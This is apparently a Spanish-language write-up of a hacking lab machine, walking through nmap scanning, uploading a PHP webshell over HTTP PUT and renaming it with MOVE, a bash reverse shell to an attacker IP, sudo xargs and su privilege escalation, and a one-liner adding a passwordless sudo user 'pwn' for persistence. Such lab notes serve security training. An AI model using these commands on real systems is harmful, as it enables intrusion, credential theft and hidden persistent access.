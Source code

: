 [[Maquinas]] de [[Hacking Ético]]

>Resolucion Anterior: Se trata de una maquina basada en una vulnerabilidad de RFI a RCE PHP mediante los metodos PUT y MOVE de HTTP

---

Iniciamos con un ping sweep para descubrir la maquina.

``` java
sudo nmap -sn 192.168.56.0/24
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-28 19:33 CET
Nmap scan report for 192.168.56.1
Host is up (0.00028s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.10
Host is up (0.00031s latency).
MAC Address: 08:00:27:A4:04:70 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.102
Host is up (0.00079s latency).
MAC Address: 08:00:27:7B:8B:9E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104
Host is up (0.00079s latency).
MAC Address: 08:00:27:6B:C7:57 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.100
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.08 seconds
```

Realizamos un ping por visibilidad:

``` java
ping -c 1 192.168.56.104
PING 192.168.56.104 (192.168.56.104) 56(84) bytes of data.
64 bytes from 192.168.56.104: icmp_seq=1 ttl=64 time=0.560 ms

--- 192.168.56.104 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.560/0.560/0.560/0.000 ms
```

El ttl de 64 sugiere que se trata de un sistema Linux, lancemos una enumeracion nmap completa:

``` bash
sudo nmap -sS -sC -sV -O -p- -T5 192.168.56.104 -oN nmap.txt
```

La salida:

``` java
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-28 19:36 CET
Nmap scan report for 192.168.56.104
Host is up (0.00070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp   open  http    nginx 1.22.1
|_http-title: 415 Unsupported Media Type
|_http-server-header: nginx/1.22.1
8080/tcp open  http    nginx 1.22.1
| http-methods: 
|_  Potentially risky methods: PUT MOVE
|_http-server-header: nginx/1.22.1
|_http-title: 415 Unsupported Media Type
MAC Address: 08:00:27:6B:C7:57 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
                                                               
```

Tenemos dos servicios http y uno de ssh. Podemos tambien ver que el servicio HTTP de 8080 permite PUT y MOVE. Podemos iniciar nuestro proceso de explotacion aqui, enumeremos este servicio.

---

## Enumeracion de HTTP en el puerto 8080

Tenemos la info de que se trata de nginx 1.22.1, que no parece ser vulnerable a nada segun searchsploit.

Intentemos averiguar mas detalles, pero whatweb solo devuelve esto:

``` java
whatweb 192.168.56.104:8080
http://192.168.56.104:8080 [415 Unsupported Media Type] Country[RESERVED][ZZ], HTTPServer[nginx/1.22.1], IP[192.168.56.104], Title[415 Unsupported Media Type], nginx[1.22.1]

```

Este codigo de error corresponde a una respuesta a una llamada de PUT, esto seguramente se deba a que no permita POST o GET y por lo tanto interprete nuestras peticiones como intentos de subida de archivos, probemos a subir un fichero .txt.

Creamos un archivo y lo subimos mediante PUT mediante:

``` bash
curl -X PUT -T "file.txt" "http://192.168.56.104:8080/file.txt"
```

Quizas podriamos subir un archivo PHP, de momento sabemos que podemos subir archivos TXT.

Utilizando la simple-backdoor de /usr/share/webshells no podemos:

``` bash
curl -X PUT -T "back.php" "http://192.168.56.104:8080/back.php"
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>
```

Pero podemos subirlo en txt.
Logro subirlo con:

``` bash
curl -X PUT -T "back.txt" "http://192.168.56.104:8080/back.txt"
```

Pero el contenido TXT no se renderiza, pero quizas pueda utilizar move para cambiarlo a php:

``` bash
curl -X MOVE -H "Destination: http://192.168.56.104:8080/back.php" http://192.168.56.104:8080/back.txt
   
```

Y funciona, tenemos RCE desde el parametro cmd, podemos realizar una peticion a:

```
http://192.168.56.104:8080/back.php?cmd=ls;whoami;
```

Y obtenemos:

```
back.php
file.txt
index.html
www-data
```

Pero esto no nos sirve, no fui capaz de estabecer una shell con la URL:

```
http://192.168.56.104:8080/back.php?cmd=bash -i >& /dev/tcp/192.168.56.100/4444 0>&1
```

Asi que probare a subir una reverse shell de PHP directamente.

Y con la reverse shell de PHP clasica estamos dentro:

```
 nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.56.100] from (UNKNOWN) [192.168.56.104] 58644
Linux unit 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64 GNU/Linux
 19:59:43 up 27 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

---

Nota de clase (no mi resolucion):

Somos el usuario www-data ya que es el usuario que corre el servidor web nginx, por lo que tenemos los permisos de ese usuario no privilegiado.

Podemos estabilizar la terminal para tener mas comodidad, hay varias formas de hacerlo, por ejemplo:

``` bash
script -qc /bin/bash /dev/null
CTRL+Z (para pasar a segundo plano)
stty -a (tomar nota de rows y columns)(en este caso rows 49; columns 103;)
stty raw -echo; fg
export TERM=XTERM
stty rows 49 columns 103
```

Y ahora podriamos usar el autocompletado, CTRL+L, CTRL+C etc.

Otro ejemplo seria con python, o utilzar rlwrap con netcat.

---
Enumeracion interna del sistema (resolucion de regal)

``` bash
id (ver quien soy)
pwd (donde estoy)
ls -lhF /home/ (ver que hay en /home/ para ver usuarios)
cat /etc/passwd (ver que usuarios hay en el sistema)
cat /etc/shadow (ver si podemos ver el fichero de contraseñas)
ls -lhF /var/www/ (si somos www-data o superior, ver ficheros del servidor web (quizas podria haber una contraseña en claro de base de datos))
sudo -l (ver que puedo ejecutar mediante sudo)
```

Con GTFOBins podemos ver que hacer con los comandos que podemos ejecutar con sudo.

---

Ahora en cuanto a la escalada de privilegios, veamos:

``` bash
$ sudo -l
Matching Defaults entries for www-data on unit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on unit:
    (jones) NOPASSWD: /usr/bin/xargs
```

Podemos utilizar xargs con los permisos de un tal usuario jones, segun gtfobins tenemos permisos de escritura, con lo que sacamos la flag de usuario:

``` bash
$ sudo -u jones xargs -a "/home/jones/user.txt" -0
956f4558a2cf5c2b8d55f2c4b1f4da91
```

Pero podemos abusar de los permisos para obtener una sh con jones:

``` bash
$ sudo -u jones xargs -a /dev/null sh
whoami
jones
```

Ahora veamos los permisos de jones:

``` bash
sudo -l
Matching Defaults entries for jones on unit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jones may run the following commands on unit:
    (root) NOPASSWD: /usr/bin/su

sudo su
whoami
root
```

Y ya esta, somos root.

Flag de root:

```
cat /root/root.txt
0d65e83f34a9f15f04ca3ec89cc25595
```

Lo que podemos hacer, es crear un usuario pwn con todos los permisos posibles por persistencia:

``` bash
sudo useradd -m -s /bin/bash pwn && sudo usermod -aG sudo pwn && sudo passwd -d pwn && sudo echo "pwn ALL=(ALL) NOPASSWD: ALL" | sudo tee /etc/sudoers.d/pwn
```

Tambien se pueden tener una shell mas comoda desde el reverse shell inciando el escuchador